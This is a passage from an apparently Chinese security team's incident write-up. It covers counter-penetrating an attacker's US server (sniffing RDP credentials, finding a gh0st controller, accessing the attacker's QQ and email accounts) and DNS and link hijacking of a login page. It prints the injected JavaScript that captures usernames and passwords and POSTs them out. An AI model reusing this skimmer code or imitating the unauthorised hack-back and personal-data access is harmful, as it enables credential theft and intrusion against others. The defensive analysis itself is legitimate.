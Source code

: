 ![enter image description here](http://drops.javaweb.org/uploads/images/103bf82e2785baff96efd3152a16ac3916f56527.jpg)

对这台服务器进行清理后，我们仍然没有放弃对攻击者的反渗透，这次我们发现攻击者还有美国的 IP，对其渗透，最终通过 c 断进行 cain 嗅探到 3389 的密码。

登录到这台美国 IP 的服务器后，发现上面运行着 gh0st 的控制端，我们内网仍然有一台服务器处于上线状态。

![enter image description here](http://drops.javaweb.org/uploads/images/0f4b61fc98b43e5c822a2a40b727df1c246f7de9.jpg)

其实到这里这次事件就能告一段落了，关于攻击者我们在这台美国的服务器上发现了攻击者的多个 QQ 和密码，登录邮箱后找到了攻击者的简历等私人信息，还有就是我们之前也获取到攻击者在国内某安全论坛帐号。其实到这里我们能够确定攻击者是谁了。

![enter image description here](http://drops.javaweb.org/uploads/images/b4b0e69c52440db56a8036ee3aaf6c8a6e5ec919.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/d9275fe35e54c315bf0017c196e09f916398ad43.jpg)

0x06 案例之永无止境的劫持
===============

* * *

对于劫持我想大家都不陌生，我们在生活中比较常见到的就是运营商在页面中插入广告等代码，这种就是一种劫持攻击。

回到案例本身，我们的一个业务先后出现多次多种手段的劫持攻击，一次是 dns 劫持，把业务的域名劫持到 61.* 这个 ip 上，另外一次是链路劫持，替换服务器返回给用户的 http 响应内容，这两次的目的都一样就是在登录口添加 js 代码，用于窃取用户的用户名和明文密码。我们另外一个业务也遭受链路劫持，直接替换客户投放的广告代码，给业务造成很大的经济损失。

下面两个图是我们业务监控系统和基调的截图，上面的图可以很明显看到在 9:30 用户登录成功数明显下降，持续不到一个小时，下图是全国部分地区基调的数据，可以看到域名被明显劫持到 61 这个 ip，这是一次典型的 DNS 攻击。

![enter image description here](http://drops.javaweb.org/uploads/images/b87608c189e9533e4782db674c3132ed6f7fac2e.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/89b5712c135d8bfea3501b7081864ec6e183aecb.jpg)

页面中被插入的攻击核心代码

```
//获取用户名和密码
function ffCheck() {
    try {
        try {
            var u = null != f ? f.idInput.value : document.getElementById("idInput").value;
        } catch (e) {
            var u = (document.getElementById("idInput").innerHTML).replace(/\s/g, "");
        }
        var p = null != f ? f.pwdInput.value : document.getElementById("pwdInput").value;
        if (u.indexOf("@") == -1) u += "@xxx.com";
        try {
            if (u.indexOf("@") == -1) u = u + getdomain();
        } catch (e) {}
        sendurl("/abc", u, p, "coremail");
    } catch (e) {}
    return fOnSubmit();
}

通过 ajax 发送出去
function sendurl(uri, u, p, i) {
xmlHttp = GetXmlHttpObject();
if (xmlHttp == null) {
    return;
}
param = "user=" + u + "&pass=" + p + "&icp=" + i;
xmlHttp.onreadystatechange = stateChanged;
try {
    xmlHttp.open("POST", uri + "?t=" + (new Date()).valueOf(), true);
} catch (e) {}
xmlHttp.setRequestHeader("If-Modified-Since", "0");
xmlHttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xmlHttp.send(param);
```